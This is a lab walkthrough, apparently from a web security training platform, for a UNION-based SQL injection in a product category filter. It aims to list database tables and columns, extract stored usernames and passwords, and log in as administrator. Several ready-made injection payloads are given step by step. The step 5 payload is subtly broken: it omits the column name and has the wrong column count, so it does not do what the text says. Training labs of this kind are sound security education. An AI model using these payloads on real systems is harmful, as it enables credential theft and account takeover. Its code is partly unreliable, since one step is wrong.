









# Lab 8: SQL injection attack, listing the database contents on non-Oracle databases

### 🧪 **Lab Overview**

This lab contains a **SQL injection vulnerability** in the **product category filter**. The query results are returned directly in the application's response. This makes it possible to use a **UNION-based SQL injection** to retrieve sensitive data from other database tables. 🧬

---

### 📌 **Objective**

The application has a **login function**, and the backend database contains a table storing **usernames and passwords**.

🎯 Your task is to:

1. Identify the **name of the users table** and its **column names**.
2. Retrieve all the **usernames and passwords** from that table.
3. Use the obtained credentials to **log in as the `administrator` user**.

### **Solution**

1️⃣ Use Burp Suite to intercept and modify the request that sets the product category filter.





2️⃣ Determine the number of columns and identify which ones contain text data.

Use the following payload in the `category` parameter:

```sql
     '+UNION+SELECT+NULL,NULL--
```





3️⃣ Use this payload to retrieve a list of tables in the database:

```sql
     '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```





4️⃣ Find the name of the table containing user credentials.

               

5️⃣ Use this payload (replace `users_abcdef` with the actual table name) to retrieve the column names:

```sql
'+UNION+SELECT++NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```





6️⃣ Identify the columns for **usernames** and **passwords**.

             
7️⃣ Use this final payload (replace the table and column names accordingly) to retrieve the credentials:

```sql
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```


8️⃣ Find the password for the `administrator` user and use it to log in via the login form.



### **Community solutions**

> [https://youtu.be/cC0_pFyvFtA](https://youtu.be/cC0_pFyvFtA)
>